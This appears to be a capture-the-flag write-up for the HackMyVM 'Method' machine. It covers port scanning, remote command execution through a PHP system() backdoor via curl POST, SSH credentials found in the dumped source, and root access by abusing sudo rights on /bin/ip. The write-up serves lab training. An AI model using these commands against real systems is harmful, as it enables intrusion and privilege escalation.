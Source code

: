 ```yaml
---
layout: post
author: canarinho
title:  "Method"
date:   2021-12-31 09:30:26 AM -03
category: HackMyVM
tags: Writeup
---
```


[HackMyVM](https://hackmyvm.eu/machines/machine.php?vm=Method)

## Scanning n Fuzzing

{% highlight bash %}
Starting Nmap 7.92 ( [https://nmap.org](https://nmap.org/) ) at 2021-12-15 19:20 -03
Nmap scan report for method (192.168.15.93)
Host is up (0.0025s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5 (protocol 2.0)
| ssh-hostkey:
|   3072 4b:24:34:1f:41:10:88:b7:5a:6a:63:d9:f6:75:26:6f (RSA)
|   256 52:46:e7:20:68:c1:6f:90:2f:a6:ad:ee:6d:87:e7:28 (ECDSA)
|_  256 3f:ce:97:a9:1e:f4:60:f4:0e:71:e7:46:58:28:71:f0 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-title: Test Page for the Nginx HTTP Server on Fedora
|_http-server-header: nginx/1.18.0
OSVDB-3092: /sitemap.xml: This gives a nice listing of the site content.
{% endhighlight %}

{% highlight bash %}
+ OSVDB-3092: /sitemap.xml: This gives a nice listing of the site content.
+ OSVDB-3092: /www/: This might be interesting...
+ OSVDB-5692: /oekaki/: The PaintBBS Server may allow unauthorized access to the config files.
{% endhighlight %}

## Testing POST as method to see what hapeens

{% highlight bash %}
curl -X POST '<http://192.168.15.93/secret.php>' -d 'HackMyVM=id' -H 'Content-Type: application/x-www-form-urlencoded'

//the return
You Found ME : - (<pre>uid=33(www-data) gid=33(www-data) groups=33(www-data)
</pre>

{% endhighlight %}

## Trying to understand what's happening...

{% highlight bash %}
curl -X POST '<http://192.168.15.93/secret.php>' -d 'HackMyVM=cat secret.php' -H 'Content-Type: application/x-www-form-urlencoded'

//the return
You Found ME : - (<pre><?php
if(isset($_GET['HackMyVM'])){
        echo "Now the main part what it is loooooool";
        echo "<br>";
echo "Try other method";
        die;
}
if(isset($_POST['HackMyVM'])){
        echo "You Found ME : - (";
        echo "<pre>";
        $cmd = ($_POST['HackMyVM']);
        system($cmd);
        echo "</pre>";
        die;
}
else {
header("Location: <https://images-na.ssl-images-amazon.com/images/I/31YDo0l4ZrL._SX331_BO1,204,203,200_.jpg>");
}
$ok="prakasaka:th3-!llum!n@t0r";
?>
</pre>

{% endhighlight %}

And there it is, we got creds to login via ssh.

## Privesc

{% highlight bash %}
User prakasaka may run the following commands on method:
    (!root) NOPASSWD: /bin/bash
    (root) /bin/ip

{% endhighlight %}

Searching for exploits using "ip" command, we got that

{% highlight bash %}
//to read a specific file
LFILE=/root/rOot.txt
sudo /bin/ip -force -batch "$LFILE"

//to get shell as root
sudo /bin/ip netns add foo
sudo /bin/ip netns exec foo /bin/sh
sudo /bin/ip netns delete foo

{% endhighlight %}